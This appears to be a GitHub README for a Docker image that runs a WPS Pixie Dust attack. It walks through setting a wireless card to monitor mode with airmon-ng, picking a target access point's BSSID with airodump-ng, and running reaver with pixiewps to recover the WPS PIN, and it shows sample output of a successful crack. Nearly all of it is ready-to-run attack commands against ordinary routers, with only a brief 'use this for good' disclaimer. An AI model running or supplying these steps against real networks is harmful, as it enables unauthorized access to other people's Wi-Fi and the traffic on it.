 # WiFi Hacking with Pixie Dust Attack (WPS)

Use this for good and not evil. It will only work on wireless access points that are configured with `Wi-Fi Protected Setup`.

## Build and Run

This image should come out to be around `30MB`.

```sh
docker build -t stevenaldinger/wifi-hack-pixie-dust-attack:latest .
```

Run privileged and with `--net=host` so your host machines wireless interfaces are available inside the container.

```sh
docker run --rm -it --privileged --net=host stevenaldinger/wifi-hack-pixie-dust-attack:latest sh
```

# General Process

First find your wireless interface name and set it to monitoring mode with [airmon-ng](https://tools.kali.org/wireless-attacks/airmon-ng). Then start [airodump-ng](https://tools.kali.org/wireless-attacks/airodump-ng) and find the [BSSID](http://www.technology-training.co.uk/bssid.php) of the access point you want to attack.

```sh
# get wireless interface
wireless_interface="$(airmon-ng | grep phy0 | awk '{print $2}')"

# start airmon-ng on the wireless interface
# this changes the interface name
airmon-ng start "$wireless_interface"

# get new wireless interface name
wireless_interface="$(airmon-ng | grep phy0 | awk '{print $2}')"

# start airodump-ng on the wireless interface
# need to get BSSID from this for the AP you're trying to crack (or all of them and iterate)
airodump-ng "$wireless_interface"
```
At this point you'll see something similar to this in your terminal:

```
> BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
>
> A3:2C:9B:C2:23:53  -78       32        1    0   1  130  WPA2 CCMP   PSK  NETGEARxxx      
> DB:DF:03:AD:9B:05  -85       15        0    0  10  270  WPA2 CCMP   PSK  NETGEARxxx_2GEXT
```

Find the `BSSID` that identifies the access point you want to attack, and run:

```sh
# example: bssid_to_attack="DB:DF:03:AD:9B:05"
bssid_to_attack="<YOUR BSSID GOES HERE>"

# run reaver to brute force the WPS pin (and potentially WPA password if mode = 3)
reaver -i "$wireless_interface" -b $bssid_to_attack -vv -K 1 -N
```
# Output

If successful, the output will look something like this:

```
# reaver -i "$wireless_interface" -b $bssid_to_attack -vv -K 1 -N

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from DB:DF:03:AD:9B:05
[+] Switching wlp1s0mon to channel 1
...
[+] Switching wlp1s0mon to channel 8
[+] Switching wlp1s0mon to channel 10
[+] Received beacon from DB:DF:03:AD:9B:05
[+] Vendor: RalinkTe
[+] Trying pin "12345670"
[+] Sending authentication request
[+] Sending association request
[+] Associated with DB:DF:03:AD:9B:05 (ESSID: NETGEARxx_2GEXT)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received identity request
...
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M1 message
...
[+] Received M1 message
executing pixiewps -e eab77...af92 -s 22ac...7372 -z a3f7...2a6d -a 1c06...ca1a -n 7564...de1a -r 349c...edd1

 Pixiewps 1.4

 [?] Mode:     1 (RT/MT/CL)
 [*] Seed N1:  0x7936402a
 [*] Seed ES1: 0x00000000
 [*] Seed ES2: 0x00000000
 [*] PSK1:     d0f2318df9619dd86ee7371d27dcgf16
 [*] PSK2:     834de146498345e034cf233eab6786ab
 [*] ES1:      00000000000000000000000000000000
 [*] ES2:      00000000000000000000000000000000
 [+] WPS pin:  43452301

 [*] Time taken: 0 s 43 ms
```
